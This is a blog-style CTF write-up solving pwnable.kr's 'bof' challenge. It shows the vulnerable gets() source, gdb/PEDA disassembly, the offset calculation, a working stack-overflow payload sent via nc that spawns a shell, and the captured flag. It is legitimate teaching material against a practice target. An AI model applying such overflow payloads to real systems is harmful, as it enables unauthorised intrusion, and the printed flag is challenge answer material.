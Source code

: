 |[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

# **Toddler's Bottle - bof**

Toddler's Bottle is one of the CTF games at pwnable.kr website.  I am going to do the game is namely bof.  There are already many writeups in the internet.  However, I am going to explain what I learnt from this game.

[Website](http://pwnable.kr/play.php) (Select bof)  
[Source Code](http://pwnable.kr/bin/bof.c)  
[Binary](http://pwnable.kr/bin/bof)  

[Exploit Server](http://pwnable.kr:9000)

The source code of the bof binary is provided.  I examine the source code and found out that we are going to replace the "key" from "0xdeadbeef" to "0xcafebabe".  The "overflowme" variable is 32 characters long.  No matter what you entered in the "overflowme" variable, the "key" is not changed as it is hard coded.  It is a buffer overflow challenge.  However, we are not going to take control of the return address this time.

```c
#include <stdio.h>
#include <string.h>
#include <stdlib.h>
void func(int key){
        char overflowme[32];
        printf("overflow me : ");
        gets(overflowme);       // smash me!
        if(key == 0xcafebabe){
                system("/bin/sh");
        }
        else{
                printf("Nah..\n");
        }
}
int main(int argc, char* argv[]){
        func(0xdeadbeef);
        return 0;
}
```

Load the gdb with PEDA and check with "checksec".  It is confirmed that the NX is enabled with another restrictions.

```bash
gdb -q ./bof
```
```bash
gdb-peda$ checksec
CANARY    : ENABLED
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```

Run ```disass main``` to disassemble the ```main``` function.

```bash
disass main
```
```bash
gdb-peda$ disass main
Dump of assembler code for function main:
   0x0000068a <+0>:     push   ebp
   0x0000068b <+1>:     mov    ebp,esp
   0x0000068d <+3>:     and    esp,0xfffffff0
   0x00000690 <+6>:     sub    esp,0x10
   0x00000693 <+9>:     mov    DWORD PTR [esp],0xdeadbeef
   0x0000069a <+16>:    call   0x62c <func>
   0x0000069f <+21>:    mov    eax,0x0
   0x000006a4 <+26>:    leave  
   0x000006a5 <+27>:    ret    
End of assembler dump.
gdb-peda$
```

Run ```disass func``` to disassembe the ```func``` function.

```bash
disass func
```
```bash
gdb-peda$ disass func
Dump of assembler code for function func:
   0x0000062c <+0>:     push   ebp
   0x0000062d <+1>:     mov    ebp,esp
   0x0000062f <+3>:     sub    esp,0x48
   0x00000632 <+6>:     mov    eax,gs:0x14
   0x00000638 <+12>:    mov    DWORD PTR [ebp-0xc],eax
   0x0000063b <+15>:    xor    eax,eax
   0x0000063d <+17>:    mov    DWORD PTR [esp],0x78c
   0x00000644 <+24>:    call   0x645 <func+25>
   0x00000649 <+29>:    lea    eax,[ebp-0x2c]
   0x0000064c <+32>:    mov    DWORD PTR [esp],eax
   0x0000064f <+35>:    call   0x650 <func+36>
   0x00000654 <+40>:    cmp    DWORD PTR [ebp+0x8],0xcafebabe
   0x0000065b <+47>:    jne    0x66b <func+63>
   0x0000065d <+49>:    mov    DWORD PTR [esp],0x79b
   0x00000664 <+56>:    call   0x665 <func+57>
   0x00000669 <+61>:    jmp    0x677 <func+75>
   0x0000066b <+63>:    mov    DWORD PTR [esp],0x7a3
   0x00000672 <+70>:    call   0x673 <func+71>
   0x00000677 <+75>:    mov    eax,DWORD PTR [ebp-0xc]
   0x0000067a <+78>:    xor    eax,DWORD PTR gs:0x14
   0x00000681 <+85>:    je     0x688 <func+92>
   0x00000683 <+87>:    call   0x684 <func+88>
   0x00000688 <+92>:    leave  
   0x00000689 <+93>:    ret    
End of assembler dump.
gdb-peda$
```

In the ```func``` function, the following codes that I am interested in.

```bash
0x00000649 <+29>:    lea  eax,[ebp-0x2c]
0x0000064c <+32>:    mov  DWORD PTR [esp],eax
0x0000064f <+35>:    call 0x650 <func+36>
0x00000654 <+40>:    cmp  DWORD PTR [ebp+0x8],0xcafebabe
0x0000065b <+47>:    jne  0x66b <func+63>
```

The ```eax,[ebp-0x2c]```, ```ebp-0x2c``` may be contained the value of ```overflowme``` variable and saved in eax register.

The ```DWORD PTR [ebp+0x8],0xcafebabe```, ```ebp+0x8``` may be contained the value of key, that is ```0xdeadbeef```.

I am going to set a breakpoint at ```0x0000065b <+47>```.

```bash
b *func+47
```
```bash
gdb-peda$ b *func+47
Breakpoint 1 at 0x65b
gdb-peda$ r
Starting program: /root/20181212/bof
overflow me :
helloworld
```

Then ```r``` run the program and is prompted for entering ```helloworld``` as the ```overflowme```.

```bash
[----------------------------------registers-----------------------------------]
EAX: 0xbffff30c ("helloworld")
EBX: 0x0
ECX: 0xb7fab5c0 --> 0xfbad2288
EDX: 0xb7fac89c --> 0x0
ESI: 0xb7fab000 --> 0x1d5d8c
EDI: 0x0
EBP: 0xbffff338 --> 0xbffff358 --> 0x0
ESP: 0xbffff2f0 --> 0xbffff30c ("helloworld")
EIP: 0x40065b (<func+47>:   jne    0x40066b <func+63>)
EFLAGS: 0x202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x40064c <func+32>:  mov    DWORD PTR [esp],eax
   0x40064f <func+35>:  call   0xb7e3c5c0 <_IO_gets>
   0x400654 <func+40>:  cmp    DWORD PTR [ebp+0x8],0xcafebabe
=> 0x40065b <func+47>:  jne    0x40066b <func+63>
 | 0x40065d <func+49>:  mov    DWORD PTR [esp],0x40079b
 | 0x400664 <func+56>:  call   0xb7e12870 <__libc_system>
 | 0x400669 <func+61>:  jmp    0x400677 <func+75>
 | 0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
 |->   0x40066b <func+63>:  mov    DWORD PTR [esp],0x4007a3
       0x400672 <func+70>:  call   0xb7e3ce40 <_IO_puts>
       0x400677 <func+75>:  mov    eax,DWORD PTR [ebp-0xc]
       0x40067a <func+78>:  xor    eax,DWORD PTR gs:0x14
                                                                  JUMP is taken
[------------------------------------stack-------------------------------------]
0000| 0xbffff2f0 --> 0xbffff30c ("helloworld")
0004| 0xbffff2f4 --> 0x0
0008| 0xbffff2f8 --> 0x0
0012| 0xbffff2fc --> 0xb7dd1b00
0016| 0xbffff300 --> 0x9 ('\t')
0020| 0xbffff304 --> 0xbffff578 ("/root/20181212/bof")
0024| 0xbffff308 --> 0xb7e05d09 (<__new_exitfn+9>:  add    ebx,0x1a52f7)
0028| 0xbffff30c ("helloworld")
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
 
Breakpoint 1, 0x0040065b in func ()
```

After entering the ```helloworld```, I am going to examine the ```eax``` and ```ebp+0x8```.

```bash
x/x $ebp+0x8

x/s $eax
```
```bash
gdb-peda$ x/x $ebp+0x8
0xbffff340: 0xdeadbeef
gdb-peda$ x/s $eax
0xbffff30c: "helloworld"
gdb-peda$
```

The result confirmed what I suspected.  I am going to check the offset the two addresses with Python.  The offset is ```52```.

```python
root@kali:~# python
Python 2.7.15+ (default, Nov 28 2018, 16:27:22)
[GCC 8.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> 0xbffff340 - 0xbffff30c
52L
>>>
```

Once get the offset, I am going to overwrite the ```0xdeadbeef``` with ```0xcafebabe``` with the exploit code.  The ```cat``` command is for the interactive with the shell.

```bash
(python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
```bash
root@kali:~/20181212# (python -c 'print "A"*52 + "\xbe\xba\xfe\xca"'; cat -) | nc pwnable.kr 9000
id
uid=1008(bof) gid=1008(bof) groups=1008(bof)
ls
bof
bof.c
flag
log
log2
super.pl
cat flag
daddy, I just pwned a buFFer :)
```

The flag is :
```
daddy, I just pwned a buFFer :)
```

[![](https://img.youtube.com/vi/SKZa5eLuO90/0.jpg)](https://www.youtube.com/watch?v=w1T9B9bixjA)


|[Home](/README.md)|[Projects](/projects.md)|[Articles](/articles.md)|[Apophthegm](/apophthegm.md)|[About](/about.md)|

